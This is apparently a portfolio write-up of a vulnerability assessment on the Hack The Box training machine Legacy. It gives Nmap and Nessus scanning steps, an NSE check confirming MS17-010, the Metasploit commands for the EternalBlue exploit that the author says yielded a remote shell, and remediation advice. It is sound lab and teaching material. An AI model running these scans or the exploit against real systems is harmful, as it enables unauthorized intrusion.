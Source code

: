 ```yaml
---
layout: page
title: Hack The Box Legacy Machine Walkthrough
# description: with background image
img: assets/img/12.jpg
importance: 1
category: work
related_publications: true
---
```


### Overview   
This walkthrough covers a Network Vulnerability Assessment conducted on the retired Hack The Box (HTB) machine Legacy. Using Nmap and Nessus, I identified critical vulnerabilities, including the notorious EternalBlue (MS17-010) exploit in the unpatched SMB service. This assessment demonstrates the process of identifying and verifying vulnerabilities in a vulnerable Windows XP machine, simulating a real-world enterprise environment.

**Tools Used**  
* **Nmap:** For initial network scanning and service enumeration.
* **Nessus:** For a detailed vulnerability scan, identifying critical security weaknesses.  

**Step 1: Nmap Scan**  
**Initial Scanning**  
To start the assessment, I ran an ```Nmap``` scan to identify open ports and services running on the Legacy machine.

    nmap -sS -sV -T4 -A <Legacy_IP>

---

### Scan Output Summary
The Nmap scan revealed several open ports and identified the services running on them:

 <img src="{{ '/assets/img/13.png' | relative_url }}" alt="alt text" class="img-fluid rounded" style="max-width: 100%; height: auto;">

This initial scan showed that **SMB (Server Message Block)** is running on port 445, which raised concerns about potential vulnerabilities, especially the infamous **EternalBlue (MS17-010)** exploit. The Windows XP operating system itself is known to have multiple unpatched vulnerabilities.

---

### Step 2: Nessus Scan  
**Setting Up Nessus**  
Next, I set up Nessus to run a vulnerability scan on the Legacy machine. I used the Basic Network Scan template, which covers a wide range of vulnerabilities, including:

* SMB vulnerabilities,
* Unpatched software,
* Weak configurations.
* Nessus Scan Results:
Nessus identified several critical vulnerabilities. Here are the most important findings:

<img src="{{ '/assets/img/nessus-findings.png' | relative_url }}" alt="alt text" class="img-fluid rounded" style="max-width: 100%; height: auto;">

The **EternalBlue** vulnerability is particularly noteworthy because it allows attackers to gain complete control of the system remotely. This vulnerability was a major part of the WannaCry ransomware attacks, making it a critical weakness in the network.

---

### Step 3: Manual Verification with Nmap
To manually verify the **EternalBlue** vulnerability detected by Nessus, I used **Nmap**'s scripting engine (```NSE```). This allowed me to run a script that specifically checks for MS17-010 on the target machine.

    nmap --script smb-vuln-ms17-010 -p445 <Legacy_IP>

### Verification Output:
The Nmap script confirmed that the Legacy machine is vulnerable to **MS17-010**:

```yaml
Host script results:
smb-vuln-ms17-010:
VULNERABLE:
Remote Code Execution vulnerability in Microsoft SMBv1
State: VULNERABLE
IDs:  CVE-2017-0143
Risk factor: HIGH
```
This verification step ensured that the Nessus scan result was accurate and that the machine was indeed susceptible to the EternalBlue exploit.

---

### Step 4: Exploitation (Optional)
Although this step is not part of a standard vulnerability assessment, I decided to verify the risk of the EternalBlue vulnerability by attempting to exploit it using Metasploit. This helps demonstrate the potential impact of the vulnerability.

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <Legacy_IP>
exploit
```
Within seconds, I gained remote shell access to the Legacy machine, confirming that this vulnerability could lead to a full system compromise in an enterprise environment.

---

### Step 5: Reporting and Mitigation
**Findings Summary**
The Nessus and Nmap scans revealed several high-risk vulnerabilities on the Legacy machine, with the most critical being EternalBlue (MS17-010). Other notable issues included weak SMB configurations and multiple unpatched Windows XP services.

### Recommendations:
1. **Upgrade Operating System:** Since Windows XP is no longer supported, the organization should upgrade to a modern operating system with ongoing security updates.
2. **Disable SMBv1:** Disabling SMBv1 will mitigate vulnerabilities like EternalBlue.
3. **Apply Security Patches:** Ensure all critical updates are applied to address known vulnerabilities like MS17-010.
4. **Harden Network Configuration:** Disable or secure unnecessary services, such as NetBIOS over TCP/IP, and enforce proper authentication mechanisms for SMB.

---

### Conclusion
This vulnerability assessment of the Hack The Box Legacy machine demonstrated the use of Nmap and Nessus to identify and verify critical vulnerabilities, such as EternalBlue (MS17-010). The findings emphasized the importance of patching and upgrading legacy systems in an enterprise environment to mitigate the risk of attacks like WannaCry and NotPetya.

By following these steps and addressing the vulnerabilities, network administrators can significantly improve their security posture and protect their systems from being compromised.